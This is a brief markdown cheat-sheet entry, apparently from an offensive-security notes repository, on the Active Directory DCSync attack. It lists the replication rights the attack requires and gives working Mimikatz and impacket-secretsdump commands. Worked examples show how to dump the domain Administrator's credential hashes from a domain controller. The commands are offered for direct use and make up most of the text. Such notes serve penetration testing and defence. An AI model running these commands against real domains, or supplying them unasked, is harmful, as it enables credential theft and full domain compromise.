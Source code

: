 ```yaml
---
title: DC Synchronization
tags:
  - Exploitation
  - Windows
  - Privilege Escalation
---
```



To perform a dcsync attacks user needs to have the Replicating Directory Changes, Replicating Directory Changes All, and Replicating Directory Changes in Filtered Set rights. By default, members of the Domain Admins, Enterprise Admins, and Administrators groups have these rights assigned.

```powershell Using Mimikatz to perform a dcsync attack.
lsadump::dcsync /user:$domain\$user

# Example : perform a dcsync attck on domain Administrator
lsadump::dcsync /user:foo.local\Administrator
```

---

```bash Using secretsdump to perform the dcsync attack
# As we are not in the domain we have to give a user credentials
impacket-secretsdump -just-dc-user $user $domain/$domain_user:"$password"@$dc_ip

# Example : perform a dcsync attck on domain Administrator
impacket-secretsdump -just-dc-user Administrator foo.local/john.doe:"password"@10.10.10.10
```